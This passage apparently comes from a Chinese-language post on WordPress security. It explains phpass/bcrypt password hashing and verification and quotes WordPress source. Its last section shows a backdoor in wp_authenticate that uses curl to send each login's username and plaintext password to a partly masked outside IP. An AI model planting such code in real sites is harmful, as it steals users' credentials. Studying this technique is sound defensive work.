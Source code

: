 其中`**$wp_hasher**`对象实例化的就是引入的 phpass 开源类

```plain
class 
function HashPassword($password)
    {
        if ( strlen( $password ) > 4096 ) {
            return '*';
        }

        $random = '';

        if (CRYPT_BLOWFISH == 1 && !$this->portable_hashes) {
            $random = $this->get_random_bytes(16);
            $hash =
                crypt($password, $this->gensalt_blowfish($random));
            if (strlen($hash) == 60)
                return $hash;
        }
    ...
```

在哈希过程中会生成 salt 结合用户的明文密码进行加密，加密算法取决于 php 版本  
php5.0 及以上的版本使用 Blowfish 算法进行加密，低于 php5.0 的版本则使用 md5 算法  
blowfish 是一种对称加密算法，理论上是可逆的，但 wordpress 使用的是它的变体 bcrypt，这个加密过程是单向的

### 密码验证

使用`**wp_check_password()**`函数，这个函数将用户输入的密码与数据库中存储的哈希进行比对，在这个过程中，它还会再次使用 phpass 类中的方法来进行比对

```plain
function wp_check_password($password, $hash, $user_id = '') {
    global $wp_hasher;

    // If the hash is still md5...
    if ( strlen($hash) <= 32 ) {
        $check = hash_equals( $hash, md5( $password ) );
        if ( $check && $user_id ) {
            // Rehash using new hash.
            wp_set_password($password, $user_id);
            $hash = wp_hash_password($password);
        }
  ...
```

## 1.5 登陆明文密码劫持

### 后门劫持

通过修改/wp-include/pluggable.php 文件中的`wp_authenticate`方法实现明文密码的劫持

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  system('curl http://1x2.1x4.7x.2x4:18080/?password='.$username.$password);
    ...
```
